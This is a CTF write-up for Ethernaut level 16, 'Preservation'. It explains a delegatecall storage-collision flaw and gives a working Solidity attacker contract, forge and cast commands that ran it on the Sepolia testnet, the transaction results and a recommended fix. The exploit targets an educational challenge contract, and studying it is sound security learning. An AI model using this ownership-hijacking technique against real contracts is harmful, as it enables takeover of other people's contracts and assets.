

> **⚠️ EDUCATIONAL PURPOSE ONLY**
> This document is part of the [Ethernaut CTF](https://ethernaut.openzeppelin.com/) educational security challenges.
> The techniques described here are for **authorized security testing and learning purposes only**.
> **DO NOT** use these methods on contracts you don't own or without explicit authorization.

---

# Preservation CTF - Exploit Report

## Challenge Information

- **Level**: 16 - Preservation
- **Difficulty**: Medium
- **Instance Address**: `0x6D30D9Ac106ec6D80b07171f9C238299Ab495755`
- **Attacker Contract**: `0xFEB093FCf95EEbCB7aC4BA9ae472CA28B8cfE130`
- **Objective**: Claim ownership of the Preservation contract
- **Status**: ✅ COMPLETED

## Vulnerability Analysis

### The Flaw: Storage Collision via Delegatecall

The Preservation contract uses `delegatecall` to library contracts, creating a critical storage collision vulnerability:

```solidity
// Preservation.sol
contract Preservation {
    address public timeZone1Library;  // Slot 0
    address public timeZone2Library;  // Slot 1
    address public owner;             // Slot 2
    uint256 storedTime;               // Slot 3

    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// LibraryContract.sol
contract LibraryContract {
    uint256 storedTime;  // Slot 0 (!)

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

**Key Issues:**
1. `delegatecall` executes library code in **Preservation's storage context**
2. LibraryContract writes to slot 0 (its `storedTime`)
3. In Preservation's context, slot 0 is `timeZone1Library`
4. This allows overwriting the library address with an attacker-controlled contract
5. The malicious library can then write to slot 2 (`owner`)

### Storage Layout Mismatch

**EVM storage model**: Variables are stored by **slot position**, not by name.

When LibraryContract executes via delegatecall:
- LibraryContract thinks it writes to `storedTime` (slot 0)
- But it actually writes to Preservation's slot 0 (`timeZone1Library`)
- This storage collision is exploitable!

## Exploitation Sequence



## Exploit Implementation

### Attack Contract

The malicious contract mirrors Preservation's storage layout:

```solidity
contract PreservationAttacker {
    // Storage MUST match Preservation's layout!
    address public timeZone1Library;  // Slot 0
    address public timeZone2Library;  // Slot 1
    address public owner;             // Slot 2 ← TARGET
    address public target;            // Slot 3

    function setTime(uint256 _owner) public {
        owner = address(uint160(_owner));  // Writes to slot 2
    }

    function attack() external {
        IPreservation preservation = IPreservation(target);

        // Stage 1: Replace library address
        preservation.setFirstTime(uint256(uint160(address(this))));

        // Stage 2: Hijack owner
        preservation.setFirstTime(uint256(uint160(msg.sender)));
    }
}
```

### Execution Steps

1. **Deploy attacker**:
```bash
forge script script/levels/16_Preservation/DeployPreservationAttacker.s.sol:DeployPreservationAttacker \
--rpc-url $SEPOLIA_RPC_URL --private-key $PRIVATE_KEY --broadcast
```

**Result**: `PreservationAttacker deployed at: 0xFEB093FCf95EEbCB7aC4BA9ae472CA28B8cfE130`

2. **Execute attack**:
```bash
cast send 0xFEB093FCf95EEbCB7aC4BA9ae472CA28B8cfE130 "attack()" \
--rpc-url $SEPOLIA_RPC_URL --private-key $PRIVATE_KEY
```

**Result**:
```
Transaction Hash: 0xa48d86fc4b4d76796bb1be608b96481d32f0cb1f9e312877bd145fb92f984e83
Block: 9808964
Gas Used: 41932
Status: 1 (success)
```

3. **Verify ownership**:
```bash
cast call 0x6D30D9Ac106ec6D80b07171f9C238299Ab495755 "owner()(address)" --rpc-url $SEPOLIA_RPC_URL
```

**Result**: `0xf350B91b403ced3c6E68d34C13eBdaaE3bbd4E01` ✅

## Proof of Success

### Before Attack
- `owner`: `0x7ae0655F0Ee1e7752D7C62493CEa1E69A810e2ed`
- `timeZone1Library`: `0x[LibraryContract]`

### After Attack
- ✅ `owner`: `0xf350B91b403ced3c6E68d34C13eBdaaE3bbd4E01` (attacker)
- ✅ `timeZone1Library`: `0xFEB093FCf95EEbCB7aC4BA9ae472CA28B8cfE130` (malicious)
- ✅ Transaction: [View on Etherscan](https://sepolia.etherscan.io/tx/0xa48d86fc4b4d76796bb1be608b96481d32f0cb1f9e312877bd145fb92f984e83)

**Objective Complete**: Successfully claimed ownership! 🎯

## Recommended Fix

The vulnerability stems from using `delegatecall` to contracts with misaligned storage. Fix by making library addresses immutable:

```solidity
contract PreservationSecure {
    address public immutable timeZone1Library;  // ✅ Cannot be changed
    address public immutable timeZone2Library;
    address public owner;
    uint256 public storedTime;

    constructor(address _tz1, address _tz2) {
        timeZone1Library = _tz1;
        timeZone2Library = _tz2;
        owner = msg.sender;
    }

    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
        // Library address cannot be overwritten anymore
    }
}
```

**Best Practice**: Avoid `delegatecall` to external contracts entirely. Use Solidity's `library` keyword for type-safe, storage-free code reuse.

## Key Takeaways

1. **Delegatecall is dangerous**: Grants full storage access in caller's context
2. **Storage layout matters**: Variables stored by slot position, not name
3. **Immutability prevents attacks**: Use `immutable` for critical addresses
4. **Prefer Solidity libraries**: Type-safe alternative to delegatecall

## References

- Instance: `0x6D30D9Ac106ec6D80b07171f9C238299Ab495755`
- Attack Contract: [PreservationAttacker.sol](PreservationAttacker.sol)
- Deployment Script: [DeployPreservationAttacker.s.sol](../../script/levels/16_Preservation/DeployPreservationAttacker.s.sol)
- Ethernaut Level 16: https://ethernaut.openzeppelin.com/level/16
- Solidity Docs: [Delegatecall](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries)
